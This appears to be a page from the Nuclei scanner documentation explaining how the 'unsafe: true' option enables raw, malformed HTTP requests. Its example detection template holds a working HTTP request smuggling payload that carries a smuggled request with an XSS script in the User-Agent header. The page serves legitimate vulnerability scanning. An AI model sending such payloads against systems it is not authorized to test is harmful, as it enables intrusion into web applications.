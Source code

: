 ```yaml
---
title: "Unsafe HTTP"
description: "Learn about using rawhttp or unsafe HTTP with Nuclei"

---
```


Nuclei supports [rawhttp](https://github.com/projectdiscovery/rawhttp) for complete request control and customization allowing **any kind of malformed requests** for issues like HTTP request smuggling, Host header injection, CRLF with malformed characters and more.

**rawhttp** library is disabled by default and can be enabled by including `unsafe: true` in the request block. 

Here is an example of HTTP request smuggling detection template using `rawhttp`. 

```yaml
http:
  - raw:
    - |+
        POST / HTTP/1.1
        Host: {{Hostname}}
        Content-Type: application/x-www-form-urlencoded
        Content-Length: 150
        Transfer-Encoding: chunked

        0

        GET /post?postId=5 HTTP/1.1
        User-Agent: a"/><script>alert(1)</script>
        Content-Type: application/x-www-form-urlencoded
        Content-Length: 5

        x=1
    - |+
        GET /post?postId=5 HTTP/1.1
        Host: {{Hostname}}

    unsafe: true # Enables rawhttp client
    matchers:
      - type: dsl
        dsl:
          - 'contains(body, "<script>alert(1)</script>")'
```
